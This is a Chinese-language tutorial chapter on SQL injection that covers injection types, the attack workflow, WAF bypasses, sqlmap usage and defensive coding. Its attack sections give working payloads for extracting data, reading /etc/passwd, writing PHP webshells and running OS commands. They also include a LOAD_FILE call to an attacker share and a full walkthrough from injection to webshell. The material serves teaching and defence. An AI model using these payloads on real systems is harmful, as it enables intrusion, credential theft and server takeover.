



## 4. SQL注入原理

SQL注入（SQL Injection）是OWASP Top 10中长期位居前列的Web安全漏洞，也是Web渗透测试中最常见、最具破坏力的攻击手段之一。其本质是**应用程序未对用户输入进行正确过滤，导致攻击者可以操纵SQL查询逻辑，执行任意数据库命令**。从1998年首次被公开讨论至今，SQL注入依然是大量安全事件的根源——2023年Verizon DBIR报告显示，Web应用攻击中约30%涉及注入类漏洞。

理解SQL注入不仅是渗透测试的必修课，更是每一位后端开发者构建安全系统的基础。

### 4.1 SQL注入的本质

#### 4.1.1 从一条查询说起

所有SQL注入的根源都在于一个简单的事实：**用户输入被当作了代码，而非数据**。

假设一个登录接口的后端代码如下：

```python
# 危险写法：直接拼接用户输入
username = request.form['username']
password = request.form['password']
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
cursor.execute(query)
```

当用户正常输入 `admin` / `123456` 时，生成的SQL为：

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '123456'
```

这条查询逻辑清晰——在 `users` 表中找到用户名为 `admin` 且密码为 `123456` 的记录。数据库按预期返回结果，一切正常。

#### 4.1.2 注入发生的瞬间

现在，攻击者在用户名字段输入 `admin'--`，密码随意输入 `anything`：

```sql
SELECT * FROM users WHERE username = 'admin'--' AND password = 'anything'
```

`--` 是SQL的行注释符（注意后面有一个空格），数据库执行时会忽略 `--` 之后的所有内容。实际执行的等价于：

```sql
SELECT * FROM users WHERE username = 'admin'
```

密码校验被完全绕过。攻击者以 `admin` 身份登录，无需知道真实密码。

这就是SQL注入的核心——通过改变SQL的语义结构，让数据库执行攻击者意图之外的操作。

#### 4.1.3 注入成立的三个必要条件

| 条件 | 说明 | 典型场景 |
|------|------|----------|
| **输入可控** | 用户能够影响SQL语句的某一部分 | 表单字段、URL参数、Cookie、HTTP头 |
| **拼接执行** | 用户输入被直接拼接到SQL语句中，而非使用参数化查询 | 字符串拼接、格式化函数构建SQL |
| **结果可回显** | 执行结果能以某种方式反馈给攻击者（不一定是直接显示） | 页面显示、错误信息、布尔差异、时间延迟 |

三个条件缺一不可。如果应用使用了参数化查询，即使输入可控也不会产生注入；如果结果完全无法被观测（无回显、无报错、无时间差异），攻击者也难以提取数据。

#### 4.1.4 SQL语句的结构与注入点

理解注入原理，需要理解SQL语句的基本结构。一条完整的SQL查询通常包含：

```sql
SELECT 列名 FROM 表名 WHERE 条件 ORDER BY 排序 LIMIT 数量
```

注入点通常出现在**值的位置**（如 `WHERE username = '这里'`），但也可以出现在其他位置：

| 注入位置 | 示例 | 可操作性 |
|----------|------|----------|
| WHERE子句的值 | `WHERE id = '1' OR '1'='1'` | 最常见，可提取数据、绕过认证 |
| ORDER BY子句 | `ORDER BY 1,2,3--` | 可用于判断列数，部分场景可报错注入 |
| 表名/列名位置 | `SELECT * FROM (SELECT table_name FROM ...)` | 间接注入，利用子查询 |
| LIMIT子句 | `LIMIT 1 UNION SELECT ...` | MySQL特有场景 |
| INSERT/UPDATE值 | `UPDATE users SET name='注入点'` | 可写入恶意数据，触发二阶注入 |

### 4.2 SQL注入分类体系

SQL注入的分类维度有多种，每种分类都对应不同的攻击手法和防御思路。

#### 4.2.1 按注入位置分类



**GET参数注入**是最常见的场景。例如一个商品详情页 `https://shop.com/product?id=1`，后端将 `id` 参数直接拼接到查询中。攻击者可以将URL改为 `https://shop.com/product?id=1 UNION SELECT username,password FROM users--`。

**HTTP头注入**容易被忽视。很多应用会将用户的IP地址（`X-Forwarded-For`）、浏览器信息（`User-Agent`）存入数据库。如果存储时未过滤，就形成了注入点：

```http
GET /login HTTP/1.1
Host: vulnerable-site.com
User-Agent: ' OR 1=1--
Referer: ' UNION SELECT NULL,version()--
X-Forwarded-For: '; DROP TABLE logs;--
```

**二阶注入（Second-Order Injection）**是最隐蔽的一类。攻击者在注册时输入用户名为 `admin'--`，应用将其存入数据库（此时不执行SQL，只是存储）。当后续代码从数据库读取这个用户名并拼接到另一条SQL中时，注入才被触发。因为数据在输入时看起来是安全的（被存储了），传统的输入过滤往往不会拦截。

#### 4.2.2 按数据回显方式分类

这是SQL注入最重要的分类方式，直接决定了攻击手法。

**联合查询注入（UNION-Based）**

当页面直接展示查询结果时，攻击者可以用 `UNION SELECT` 将恶意查询的结果附加到正常结果后面。

```sql
-- 正常查询：显示商品信息
SELECT name, price FROM products WHERE id = 1

-- 注入后：附加数据库版本信息
SELECT name, price FROM products WHERE id = -1
UNION SELECT 1, version()
```

使用条件：
- 原始查询与UNION查询的列数必须相同
- 对应列的数据类型必须兼容
- 页面必须能展示查询结果

判断列数的方法是逐步增加 `ORDER BY` 的序号直到报错：

```sql
?id=1 ORDER BY 1--    -- 正常
?id=1 ORDER BY 2--    -- 正常
?id=1 ORDER BY 3--    -- 正常
?id=1 ORDER BY 4--    -- 报错 → 说明有3列
```

**报错注入（Error-Based）**

当应用返回详细的数据库错误信息时，攻击者可以故意构造使数据库报错的SQL，并将要窃取的数据嵌入错误信息中。

MySQL常用的报错函数：

```sql
-- extractvalue() 报错注入
?id=1 AND extractvalue(1,concat(0x7e,(SELECT version()),0x7e))
-- 错误信息：XPATH syntax error: '~5.7.26~'

-- updatexml() 报错注入
?id=1 AND updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)
-- 错误信息：XPATH syntax error: '~my_database~'

-- floor() 报错注入（适用于所有MySQL版本）
?id=1 AND (SELECT 1 FROM (SELECT count(*),concat((SELECT database()),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
-- 错误信息：Duplicate entry 'my_database1' for key 'group_key'
```

每种报错函数的原理不同。`extractvalue` 和 `updatexml` 是XML函数，传入非法XPath表达式时会将第二个参数的内容包含在错误信息中返回。`floor(rand(0)*2)` 利用了MySQL的 `GROUP BY` 机制在特定条件下产生的主键冲突。

**布尔盲注（Boolean-Based Blind）**

当页面不返回查询结果、也不显示错误信息，但会根据查询结果的真假呈现不同的页面内容时，使用布尔盲注。

```sql
-- 判断数据库名第一个字符的ASCII码
?id=1 AND (SELECT ASCII(SUBSTR(database(),1,1))) > 100  -- 页面正常 → 大于100
?id=1 AND (SELECT ASCII(SUBSTR(database(),1,1))) > 115  -- 页面异常 → 小于等于115
?id=1 AND (SELECT ASCII(SUBSTR(database(),1,1))) > 107  -- 页面正常 → 大于107
?id=1 AND (SELECT ASCII(SUBSTR(database(),1,1))) > 111  -- 页面异常 → 等于111 → 字符'o'
```

通过二分法逐字符判断，虽然效率较低，但在只能观测布尔状态的场景下是唯一手段。提取一个10位的数据库名大约需要 10 × 7 = 70 次请求（每个字符7次二分判断）。

**时间盲注（Time-Based Blind）**

当页面对真假条件都返回完全相同的内容（无布尔差异）时，可以通过延时来传递信息。

```sql
-- 如果数据库名第一个字符是'm'，则延迟5秒
?id=1 AND IF((SELECT ASCII(SUBSTR(database(),1,1)))=109, SLEEP(5), 0)

-- 使用BENCHMARK替代SLEEP（某些WAF会拦截SLEEP）
?id=1 AND IF((SELECT ASCII(SUBSTR(database(),1,1)))=109, BENCHMARK(10000000,SHA1('test')), 0)
```

时间盲注是最慢的一种注入方式，因为每次请求都要等待延时。提取一个字符可能需要数十秒到数分钟。但它也是最难防御的——页面内容完全不变，传统的日志分析很难发现异常。

**堆叠注入（Stacked Queries）**

当数据库驱动允许多语句执行时，攻击者可以执行完全独立的第二条SQL语句。这极大扩展了攻击面——不仅限于SELECT，还可以INSERT、UPDATE、DELETE，甚至执行系统命令。

```sql
-- 查询+修改密码
?id=1; UPDATE users SET password='hacked' WHERE username='admin'--

-- 查询+写入WebShell
?id=1; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'--
```

MySQL默认不支持堆叠注入（`mysqli_multi_query` 需要显式调用），但PostgreSQL、MSSQL支持。PHP中使用 `PDO::ATTR_EMULATE_PREPARES` 时也可能启用堆叠查询。

#### 4.2.3 按数据库类型分类

不同数据库的SQL方言、内置函数、系统表存在显著差异，攻击者需要针对目标数据库调整Payload。

| 特性 | MySQL | PostgreSQL | MSSQL | Oracle | SQLite |
|------|-------|-----------|-------|--------|--------|
| 注释符 | `-- ` `#` | `-- ` | `-- ` | `-- ` | `-- ` |
| 字符串连接 | `CONCAT()` | `\|\|` | `+` | `\|\|` | `\|\|` |
| 版本查询 | `version()` | `version()` | `@@VERSION` | `SELECT banner FROM v$version` | `sqlite_version()` |
| 当前用户 | `user()` `current_user()` | `current_user` | `SYSTEM_USER` `SUSER_NAME()` | `SYS_CONTEXT('USERENV','CURRENT_USER')` | 无直接函数 |
| 当前数据库 | `database()` | `current_database()` | `DB_NAME()` | 无直接概念 | 通过ATTACH获取 |
| 系统表 | `information_schema` | `information_schema` `pg_catalog` | `information_schema` `sysobjects` | `ALL_TABLES` `USER_TABLES` | `sqlite_master` |
| 堆叠查询 | 默认不支持 | 支持 | 支持 | 支持 | 支持 |
| 多行注释 | `/* */` | `/* */` | `/* */` | `/* */` | `/* */` |

### 4.3 SQL注入攻击流程

一次完整的SQL注入攻击通常遵循以下流程：



#### 4.3.1 第一阶段：注入点识别

注入点识别的核心方法是**发送特殊字符并观察应用响应变化**。

常用的测试字符和Payload：

| 测试Payload | 预期现象 | 说明 |
|-------------|----------|------|
| `'` | 页面报错或异常 | 单引号打破了字符串边界 |
| `"` | 页面报错或异常 | 双引号注入（某些场景） |
| `' OR '1'='1` | 返回多条数据或条件永真 | 基本的OR注入 |
| `' AND '1'='2` | 返回空结果或条件永假 | 验证布尔型差异 |
| `'--` | 恢复正常 | 注释掉后续条件 |
| `'; WAITFOR DELAY '0:0:5'--` | 响应延迟5秒 | 时间盲注验证（MSSQL） |
| `1 ORDER BY 100--` | 报错 | 判断列数 |

实际测试中，需要逐一测试每个输入参数，并记录响应差异。自动化工具如sqlmap可以大幅提高效率。

#### 4.3.2 第二阶段：信息提取

确认注入点后，按以下顺序逐步提取信息：

**Step 1: 获取基础信息**

```sql
-- MySQL
UNION SELECT 1, version(), database(), user()--

-- PostgreSQL
UNION SELECT 1, version(), current_database(), current_user--

-- MSSQL
UNION SELECT 1, @@VERSION, DB_NAME(), SYSTEM_USER--
```

**Step 2: 枚举所有数据库**

```sql
-- MySQL/PostgreSQL
UNION SELECT 1, schema_name, 3 FROM information_schema.schemata--

-- MySQL简化
UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata--
```

**Step 3: 枚举目标数据库的表**

```sql
UNION SELECT 1,table_name,3 FROM information_schema.tables
WHERE table_schema='target_db'--
```

**Step 4: 枚举目标表的列**

```sql
UNION SELECT 1,column_name,3 FROM information_schema.columns
WHERE table_name='users' AND table_schema='target_db'--
```

**Step 5: 提取数据**

```sql
UNION SELECT 1,group_concat(username,0x3a,password),3 FROM users--
```

其中 `0x3a` 是冒号的十六进制编码，用于分隔不同字段。

#### 4.3.3 第三阶段：权限提升与后渗透

当获取数据库用户权限较高时，攻击者可以：

**文件读取**

```sql
-- MySQL LOAD_FILE()
UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3--

-- PostgreSQL
UNION SELECT 1, pg_read_file('/etc/passwd'), 3--
```

**文件写入（写WebShell）**

```sql
-- MySQL INTO OUTFILE
UNION SELECT 1, '<?php eval($_POST["cmd"]);?>', 3
INTO OUTFILE '/var/www/html/shell.php'--

-- MySQL INTO DUMPFILE（写二进制文件）
UNION SELECT 0x4d5a90... INTO DUMPFILE '/tmp/evil.dll'--
```

写入成功需要满足：数据库用户有 `FILE` 权限、目标路径可写、`secure_file_priv` 允许（MySQL 5.5.34+）。

**命令执行**

```sql
-- MSSQL xp_cmdshell
EXEC xp_cmdshell 'whoami';

-- MySQL UDF提权（需要写入共享库文件）
SELECT sys_eval('whoami');

-- PostgreSQL COPY命令
COPY cmd_exec FROM PROGRAM 'id';
```

### 4.4 常见绕过技术

现代应用通常部署了WAF（Web应用防火墙）或内置过滤，攻击者需要掌握绕过技术。

#### 4.4.1 空格绕过

| 绕过方式 | Payload | 适用场景 |
|----------|---------|----------|
| 注释替代空格 | `/**/` | MySQL、PostgreSQL |
| 括号包裹 | `SELECT(username)FROM(users)` | MySQL |
| 换行符 | `%0a` `%0d` | 大部分数据库 |
| 制表符 | `%09` | 大部分数据库 |
| 双写绕过 | `UN/**/ION SE/**/LECT` | 检测注释但不递归删除 |
| 浮点数 | `1.0` `1e0` | 某些场景替代整数 |

#### 4.4.2 关键字绕过

```sql
-- 大小写混合（部分WAF区分大小写）
UnIoN SeLeCt 1,2,3--

-- 双写（WAF删除一次关键字后剩余部分仍有效）
UNIunionON SELselectECT 1,2,3--

-- 内联注释（MySQL特有）
/*!UNION*/ /*!SELECT*/ 1,2,3--
UNION%0ASELECT 1,2,3--

-- 使用CHAR()替代字符串
-- WHERE username = 'admin'
WHERE username = CHAR(97,100,109,105,110)--

-- 使用0x十六进制替代字符串
WHERE username = 0x61646D696E--
```

#### 4.4.3 引号绕过

```sql
-- 不使用引号
WHERE username = 0x61646D696E  -- 十六进制
WHERE username = CHAR(97,100,109,105,110)  -- CHAR函数
WHERE username = (SELECT username FROM users LIMIT 1)  -- 子查询

-- 转义绕过
WHERE username = 'admin\' OR 1=1--'  -- 利用转义逻辑漏洞
```

#### 4.4.4 等号绕过

```sql
-- 使用LIKE
WHERE username LIKE 'admin'

-- 使用REGEXP/RLIKE
WHERE username REGEXP 'admin'

-- 使用BETWEEN
WHERE id BETWEEN 1 AND 1

-- 使用IN
WHERE id IN (1)

-- 使用比较运算符
WHERE id > 0 AND id < 2
```

#### 4.4.5 WAF识别与绕过策略

不同的WAF有不同的检测规则，了解目标WAF是绕过的前提：

| WAF | 特征检测 | 常见绕过思路 |
|-----|----------|-------------|
| ModSecurity | 正则规则集（CRS） | 超长payload消耗正则引擎、编码变换、HTTP参数污染 |
| Cloudflare WAF | 机器学习+规则 | JSON编码请求体、分块传输编码 |
| 安全狗 | 关键字匹配 | 内联注释、大小写、Unicode编码 |
| 长亭雷池 | 语义分析 | 混淆语法结构、结合业务逻辑 |
| AWS WAF | 规则+机器学习 | 路径参数注入、Cookie注入 |

### 4.5 自动化工具：sqlmap

sqlmap是SQL注入检测和利用的事实标准工具，支持几乎所有主流数据库。

#### 4.5.1 基础用法

```bash
# 检测GET参数注入
sqlmap -u "http://target.com/page?id=1" --batch

# 检测POST参数注入
sqlmap -u "http://target.com/login" --data="username=admin&password=123" --batch

# 使用Cookie中的参数
sqlmap -u "http://target.com/dashboard" --cookie="session=abc123" --batch

# 使用HTTP头注入
sqlmap -u "http://target.com/" --headers="X-Forwarded-For: 1*\n" --batch

# 从Burp请求文件中读取
sqlmap -r request.txt --batch
```

#### 4.5.2 进阶参数

```bash
# 指定数据库类型（加速检测）
sqlmap -u "http://target.com/?id=1" --dbms=mysql

# 指定注入技术
sqlmap -u "http://target.com/?id=1" --technique=BEU  # B=布尔 E=报错 U=联合

# 枚举数据库
sqlmap -u "http://target.com/?id=1" --dbs

# 枚举表
sqlmap -u "http://target.com/?id=1" -D target_db --tables

# 导出数据
sqlmap -u "http://target.com/?id=1" -D target_db -T users --dump

# 读取文件
sqlmap -u "http://target.com/?id=1" --file-read="/etc/passwd"

# 写入文件
sqlmap -u "http://target.com/?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# 执行系统命令（需要DBA权限）
sqlmap -u "http://target.com/?id=1" --os-shell

# 绕过WAF的tamper脚本
sqlmap -u "http://target.com/?id=1" --tamper=space2comment,between,randomcase
```

#### 4.5.3 常用Tamper脚本

| Tamper脚本 | 功能 | 适用场景 |
|------------|------|----------|
| `space2comment` | 空格替换为 `/**/` | 过滤空格的WAF |
| `between` | `>` 替换为 `NOT BETWEEN 0 AND`，`=` 替换为 `BETWEEN` | 过滤比较运算符 |
| `randomcase` | 随机大小写 | 关键字大小写匹配的WAF |
| `charencode` | URL编码所有字符 | 简单的字符检测 |
| `base64encode` | Base64编码Payload | 输入为Base64的接口 |
| `apostrophemask` | 单引号替换为UTF-8全角 `'` | Unicode编码绕过 |
| `greatest` | `>` 替换为 `GREATEST()` | 过滤大于号 |
| `halfversionedmorekeywords` | MySQL注释绕过 | MySQL < 5.1 |

### 4.6 防御与安全编码

理解攻击的目的是为了更好地防御。SQL注入的防御核心是**永远不要将用户输入直接拼接到SQL语句中**。

#### 4.6.1 参数化查询（Parameterized Query）

这是防御SQL注入最有效、最根本的方法。参数化查询将SQL结构和数据分离，数据库引擎会将参数视为纯数据而非可执行代码。

```python
# Python - psycopg2 (PostgreSQL)
cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", 
               (username, password))

# Python - SQLAlchemy ORM
user = session.query(User).filter(User.username == username).first()

# Java - PreparedStatement
PreparedStatement stmt = conn.prepareStatement(
    "SELECT * FROM users WHERE username = ? AND password = ?");
stmt.setString(1, username);
stmt.setString(2, password);

# PHP - PDO
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username");
$stmt->execute(['username' => $username]);

# Node.js - mysql2
connection.execute('SELECT * FROM users WHERE username = ?', [username]);

# Go - database/sql
db.Query("SELECT * FROM users WHERE username = $1", username)
```

#### 4.6.2 ORM框架的正确使用

ORM（对象关系映射）框架默认使用参数化查询，但错误的使用方式仍会导致注入：

```python
# SQLAlchemy - 安全写法
user = session.query(User).filter(User.username == username).first()

# SQLAlchemy - 危险写法（text()中直接拼接）
session.execute(text(f"SELECT * FROM users WHERE username = '{username}'"))

# SQLAlchemy - 安全写法（text()中使用参数）
session.execute(text("SELECT * FROM users WHERE username = :name"), {"name": username})

# Django ORM - 安全写法
User.objects.filter(username=username)

# Django ORM - 危险写法（raw()中直接拼接）
User.objects.raw(f"SELECT * FROM users WHERE username = '{username}'")
```

#### 4.6.3 输入验证（Defense in Depth）

参数化查询是第一道防线，输入验证是第二道。两者结合实现纵深防御：

```python
import re
from typing import Optional

def validate_username(username: str) -> Optional[str]:
    """用户名只允许字母、数字、下划线，长度3-30"""
    if not username:
        return None
    if not re.match(r'^[a-zA-Z0-9_]{3,30}$', username):
        return None
    return username

def validate_integer(value: str) -> Optional[int]:
    """只接受纯整数"""
    try:
        return int(value)
    except (ValueError, TypeError):
        return None
```

#### 4.6.4 最小权限原则

即使应用层被突破，数据库用户权限的限制也能降低损害：

```sql
-- 为Web应用创建专用数据库用户
CREATE USER 'webapp'@'localhost' IDENTIFIED BY 'strong_password';

-- 只授予必要的权限
GRANT SELECT, INSERT, UPDATE ON app_db.* TO 'webapp'@'localhost';

-- 禁止危险权限
-- FILE权限（读写文件）
-- SUPER权限（修改全局配置）
-- PROCESS权限（查看其他连接）
-- EXECUTE权限（执行存储过程，视业务需要）
```

#### 4.6.5 错误信息处理

生产环境永远不应将数据库错误信息直接返回给用户：

```python
# 错误做法
try:
    cursor.execute(query)
except Exception as e:
    return f"Database error: {str(e)}"  # 泄露数据库信息

# 正确做法
import logging
logger = logging.getLogger(__name__)

try:
    cursor.execute(query)
except Exception as e:
    logger.error(f"Database query failed: {e}", exc_info=True)
    return "系统异常，请稍后重试"
```

#### 4.6.6 WAF部署

WAF作为额外的安全层，可以在应用层防护被突破时提供最后一道防线：

- 开源方案：ModSecurity + OWASP CRS
- 云厂商：AWS WAF、Cloudflare WAF、阿里云WAF
- 商业方案：Imperva、F5

但必须明确：**WAF不是SQL注入防御的替代品，而是补充**。WAF规则可以被绕过，参数化查询才是根本解决方案。

### 4.7 高级主题

#### 4.7.1 二阶注入深入分析

二阶注入的攻击链包含两个阶段：



防御二阶注入的关键是：**从数据库读取的数据也必须被视为不可信的，使用时仍需参数化查询**。

#### 4.7.2 NoSQL注入

随着MongoDB等NoSQL数据库的普及，NoSQL注入也变得重要：

```javascript
// MongoDB注入示例
// 正常查询
db.users.find({username: "admin", password: "123456"})

// 注入攻击：利用$gt操作符
// POST: username=admin&password[$gt]=
db.users.find({username: "admin", password: {$gt: ""}})
// password: {$gt: ""} 匹配任何非空字符串，绕过密码验证
```

防御方式：严格验证输入类型，不接受对象作为字符串参数。

#### 4.7.3 ORM注入

ORM注入发生在开发者错误使用ORM框架的原生查询功能时：

```python
# Django ORM注入
# 危险：extra()中使用用户输入
User.objects.extra(where=[f"username = '{username}'"])

# 安全：使用参数
User.objects.extra(where=["username = %s"], params=[username])
```

#### 4.7.4 SQL注入与SSRF/XXE的组合攻击

SQL注入可以与其他漏洞组合，造成更严重的后果：

- **SQL注入 + 文件写入 + WebShell**：通过 `INTO OUTFILE` 写入WebShell，获得持久化后门
- **SQL注入 + UDF提权 + RCE**：通过用户定义函数执行系统命令
- **SQL注入 + SSRF**：利用数据库的网络连接能力（如MySQL的 `LOAD_FILE('\\\\attacker\\share')` 发起NTLM认证中继攻击）
- **SQL注入 + XXE**：某些数据库支持XML解析（如PostgreSQL的 `XMLPARSE`），可结合XXE读取服务器文件

### 4.8 实战案例：从注入到控制

以下是一个完整的实战攻击链演示（针对授权测试环境）：

**场景：** 某电商网站商品搜索功能存在SQL注入。

```text
# 1. 发现注入点
https://shop.com/search?keyword=手机'
→ 页面报错：You have an error in your SQL syntax...

# 2. 确认注入类型（UNION可用）
https://shop.com/search?keyword=手机' UNION SELECT 1,2,3-- -
→ 页面显示数字2

# 3. 获取数据库信息
https://shop.com/search?keyword=手机' UNION SELECT 1,version(),database()-- -
→ 5.7.26 | shop_db

# 4. 枚举表
https://shop.com/search?keyword=手机' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='shop_db'-- -
→ products,users,orders,admin_users

# 5. 提取admin_users表结构
https://shop.com/search?keyword=手机' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='admin_users'-- -
→ id,username,password_hash,role

# 6. 提取管理员凭据
https://shop.com/search?keyword=手机' UNION SELECT 1,group_concat(username,0x3a,password_hash),3 FROM admin_users-- -
→ admin:5f4dcc3b5aa765d61d8327deb882cf99 (MD5 of 'password')

# 7. 尝试文件写入
https://shop.com/search?keyword=手机' UNION SELECT 1,'<?php system($_GET["c"]);?>',3 INTO OUTFILE '/var/www/html/uploads/r.php'-- -
→ 写入成功

# 8. 通过WebShell执行命令
https://shop.com/uploads/r.php?c=id
→ uid=33(www-data) gid=33(www-data)
```

### 4.9 常见误区与纠正

| 误区 | 事实 |
|------|------|
| "用了框架就不会有SQL注入" | 框架的ORM是安全的，但 `raw()`、`text()` 等原生SQL方法仍需手动防注入 |
| "存储过程不会被注入" | 存储过程中如果动态拼接SQL，同样会存在注入风险 |
| "过滤了单引号就够了" | 数字型注入不需要引号，且过滤可以被各种编码绕过 |
| "WAF能防住所有注入" | WAF是辅助手段，规则可以被绕过 |
| "只有SELECT查询才能注入" | INSERT、UPDATE、DELETE中同样可以注入 |
| "盲注不危险" | 盲注可以提取完整数据，只是效率较低 |
| "参数化查询影响性能" | 现代数据库对参数化查询有执行计划缓存，性能反而更好 |
| "只有Web应用才有SQL注入" | 任何拼接SQL的地方都有风险：CLI工具、API、消息队列消费者 |

### 4.10 学习路径与进阶资源

**入门阶段：**
- 手工测试DVWA（Damn Vulnerable Web Application）的SQL Injection模块
- 使用sqlmap工具理解自动化检测原理
- 学习MySQL/PostgreSQL基础SQL语法

**中级阶段：**
- 练习sqli-labs（Less-1到Less-75），掌握所有注入类型
- 学习WAF绕过技术，理解常见tamper脚本原理
- 阅读OWASP Testing Guide中SQL Injection章节

**高级阶段：**
- 研究数据库特性的安全影响（MySQL文件操作、MSSQL xp_cmdshell、PostgreSQL大对象）
- 分析真实CVE中的SQL注入漏洞
- 学习代码审计，从源码层面识别注入风险
- 研究二阶注入、ORM注入等复杂场景
